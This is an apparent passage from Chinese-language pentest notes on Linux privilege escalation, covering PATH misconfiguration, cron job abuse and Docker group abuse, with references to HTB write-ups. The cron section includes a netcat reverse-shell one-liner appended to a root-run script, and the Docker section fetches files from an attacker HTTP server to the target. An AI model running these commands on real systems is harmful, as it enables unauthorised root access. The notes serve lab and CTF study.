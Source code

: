 ```
```

## path misconfiguration
参考[Hacking Linux Part I: Privilege Escalation By gimboyd](http://www.dankalia.com/tutor/01005/0100501004.htm)

## cronjob 定时任务
查看定时任务，根据情况进行提权。一般运行脚本、写文件等
[pspy](https://github.com/DominicBreuker/pspy)查看定时任务
参考 [htb-friendzone](http://0x4242.net/log/2019-07-13_htb_friendzone/)

```
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh

./pspy64 -pf -i 1000
```

## Docker
参考：docker提权原理，通过文件映射挂载/root目录，直接读取flag。详细可参考如下链接。
https://www.hackingarticles.in/docker-privilege-escalation/
https://www.freebuf.com/articles/system/170783.html

kali下载镜像生成Dockerfile，上传靶机构建镜像

```
wget https://dl-cdn.alpinelinux.org/alpine/v3.14/releases/x86_64/alpine-minirootfs-3.14.1-x86_64.tar.gz
vim Dockerfile

FROM scratch
ADD alpine-minirootfs-3.14.1-x86_64.tar.gz /
CMD ["/bin/sh"]

python -m SimpleHTTPServer 8080

#靶机
wget http://192.168.3.117:8080/alpine-minirootfs-3.14.1-x86_64.tar.gz
wget http://192.168.3.117:8080/Dockerfile

docker build -t alpine:3.14 .
```

